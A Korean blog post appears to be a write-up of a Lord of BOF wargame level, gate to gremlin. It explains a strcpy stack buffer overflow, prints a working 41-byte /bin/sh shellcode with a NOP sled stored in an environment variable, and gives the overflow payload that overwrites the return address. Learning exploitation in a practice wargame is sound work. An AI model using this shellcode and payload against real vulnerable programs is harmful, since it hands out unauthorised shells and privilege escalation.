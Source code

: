 ```yaml
---
title:  "[LOB] level 1: gate >> gremlin "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-21 05:17:28

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 1

**gate / gate**

gremlin.c 파일에서 코드 확인  
![image](https://user-images.githubusercontent.com/69203345/146874240-478f8c57-92a0-4430-b2f1-3869015d274d.png)

buffer에 256바이트 크기 할당
if문에서 전달받은 인자가 2개 이상인지 확인  

>main함수의 매개변수  
int argc
메인함수에 전달되는 정보의 갯수를 의미한다.  
char* argv［］
메인함수에 전달되는 실질적인 정보로, 문자열의 배열을 의미한다. 첫번째 문자열은 프로그램의 실행경로로 항상 고정이 되어 있다.  
[참조](https://m.blog.naver.com/sharonichoya/220501242693)

그후 strcpy에서 취약점이 발생하는데 strcpy는 복사받는 대상의 크기에 상관없이 무조건 복사를 합니다. bof취약점이 생긴다는 거죠

이제 스택의 상황을 살펴보자면  

![image](https://user-images.githubusercontent.com/69203345/146874308-b6d294af-73d8-4df6-9590-205c9985a18a.png)

0x8048433 <main+3>: sub %esp,0x100  
스택크기로 0x100(256바이트)지정

0x804846e <main+62>: lea %eax,[%ebp-256]  
을 보면 buf가 [ebp-256]에 위치함

낮은주소

buf[256] [ebp-256]
sfp[4]  
ret[4]

높은주소

dummy없이 buffer-sfp-ret 일듯하다

환경변수설정, 41바이트 쉘코드 사용  
> export EGG=\`python -c 'print "\x90"*15+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`  
> echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); } ' > getenv.c  
> gcc getenv.c -o getenv

![image](https://user-images.githubusercontent.com/69203345/146874923-cb656a6f-02ac-415c-8ffb-2cc38536c174.png)

나온 주소를 사용해서 페이로드 작성  
>\`python -c 'print "A"*260+"\x9f\xfe\xff\xbf"'`

![image](https://user-images.githubusercontent.com/69203345/146875287-25b78235-b94d-4a25-85a6-89155c77a81e.png)

---
[쉘코드 기초](https://d4m0n.tistory.com/10)  
main함수의 매개변수
[참조](https://m.blog.naver.com/sharonichoya/220501242693)
